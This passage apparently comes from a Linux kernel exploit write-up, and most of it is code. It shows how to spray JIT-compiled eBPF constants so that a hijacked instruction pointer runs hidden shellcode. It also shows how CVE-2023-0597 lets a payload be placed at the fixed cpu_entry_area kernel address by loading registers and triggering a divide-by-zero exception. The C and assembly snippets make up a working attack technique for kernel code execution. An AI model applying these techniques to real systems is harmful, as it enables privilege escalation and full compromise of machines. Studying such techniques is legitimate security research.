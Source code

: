 We construct our eBPF program with the following form:

```cpp
struct sock_filter table[] = {
        {.code = BPF_LD + BPF_K, .k = 0xb3909090},
        {.code = BPF_LD + BPF_K, .k = 0xb3909090},
        .....................
};
```

The above example will be compiled into the following instructions after JIT:

```
b8 90 90 90 b3    mov eax, 0xb3909090
b8 90 90 90 b3    mov eax, 0xb3909090
```

If we can control kernel RIP to jump into the NOP instruction ( 0x90 ), the code will become:

```
90       nop 
b3 b8    mov    bl, 0xb8
90       nop
90       nop
90       nop
b3 b8    mov    bl, 0xb8
....
```

We can see that by using an extra byte `0xb3`, we can skip the useless byte `0xb8` and execute our own shellcode. Notice that due to the "skipping part", we only have 3 bytes of space in each instruction, so we'll have to take care of that as well during our shellcode construction.

#### Put payload in fixed kernel address (CVE-2023-0597)
Linux kernel maps `cpu_entry_area` into a fixed kernel address in x86 and that region is also used as exception stack. We can put our payload in the registers and trigger exception from user space. The exception handler will push our registers in the exception stack, allowing us to control data in fixed kernel address.

Catch the signals and skip the offending instruction.
```C
    signal(SIGFPE, handle);
    signal(SIGTRAP, handle);
    signal(SIGSEGV, handle);
    setsid();
    foo(payload);
```

Put our payload on registers in specific order

```asm
foo:
	mov rsp,rdi
	pop r15
	pop r14
	pop r13
	pop r12
	pop rbp
	pop rbx
	pop r11
	pop r10
	pop r9
	pop r8
	pop rax
	pop rcx
	pop rdx
	pop rsi
	pop rdi
	div qword [0x1234000] ; trigger div 0 exception
```